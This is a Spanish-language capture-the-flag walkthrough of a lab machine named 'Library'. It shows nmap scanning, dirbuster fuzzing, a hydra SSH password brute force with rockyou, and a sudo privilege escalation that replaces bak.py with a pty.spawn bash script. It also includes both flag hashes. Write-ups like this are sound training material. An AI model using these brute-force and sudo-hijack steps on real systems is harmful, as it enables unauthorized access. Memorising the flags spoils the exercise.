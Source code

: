 # Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.

![Pasted image 20250221170150](images/20250221170150.png)

## Fuzzing web

Accedemos al sitio web. 

![[Pasted image 20250221170416.png]]

Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.

![[Pasted image 20250221170508.png]]

El único interesante puede ser el directorio de  `/images/`

![[Pasted image 20250221171240.png]]

También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.

![[Pasted image 20250221171339.png]]

Que puede ser `meliodas`por como vemos en la página anterior.

![[Pasted image 20250221171459.png]]

Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.

![[Pasted image 20250221171938.png]]

```
ssh meliodas@10.10.31.106
```

![[Pasted image 20250221172044.png]]

Obtenemos la flag de`user.txt`.

![[Pasted image 20250221172143.png]]

```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```

![[Pasted image 20250221172307.png]]

Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.

![[Pasted image 20250221172514.png]]

Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```

![[Pasted image 20250221172815.png]]

Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```
![[Pasted image 20250221172922.png]]

Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.

![[Pasted image 20250221173014.png]]

```
e8c8c6c256c35515d1d344ee0488c617
```












